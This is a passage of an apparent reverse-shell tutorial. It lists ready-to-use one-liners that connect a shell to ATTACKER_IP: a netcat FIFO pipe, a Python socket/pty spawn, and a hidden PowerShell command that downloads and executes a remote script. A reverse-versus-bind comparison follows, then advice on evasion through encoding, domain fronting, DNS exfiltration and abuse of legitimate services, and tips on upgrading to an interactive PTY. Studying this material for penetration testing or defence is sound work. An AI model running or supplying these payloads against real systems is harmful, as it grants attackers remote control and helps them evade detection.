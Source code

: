 **Netcat (without `-e`)**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 >/tmp/f
```

**Python**

```python
python -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

**PowerShell (Windows)**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"
```

---

## 5️⃣ Reverse Shell vs Bind Shell

| Feature                  | Reverse Shell                          | Bind Shell               |
| ------------------------ | -------------------------------------- | ------------------------ |
| Who initiates connection | Target → Attacker                      | Attacker → Target        |
| Firewall/NAT bypass      | ✅ Often works                         | ❌ Often blocked         |
| Setup                    | Attacker listens                       | Target listens           |
| Stealth                  | Can blend with normal outbound traffic | Easier to detect inbound |

---

## 6️⃣ Advanced Topics — From Intermediate to Expert

### 🔹 Protocol Choice

- **TCP** : Most common, reliable.
- **UDP** : Faster, less reliable, can bypass some detection.
- **HTTP/HTTPS** : Encapsulates shell traffic in web requests — blends in with normal browsing.
- **DNS** : Used for stealthy, low‑bandwidth exfiltration and control.

### 🔹 Obfuscation & Evasion

- Encoding payloads (Base64, URL encoding).
- Using legitimate services as intermediaries (e.g., GitHub, Pastebin).
- Domain fronting (making traffic appear to go to a trusted domain).

### 🔹 Fully Interactive Shells

- Many raw reverse shells are “dumb” — no tab completion, no colors.
- Upgrade to a **PTY** :
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
- Or use `stty raw -echo` and `export TERM=xterm` for better usability.
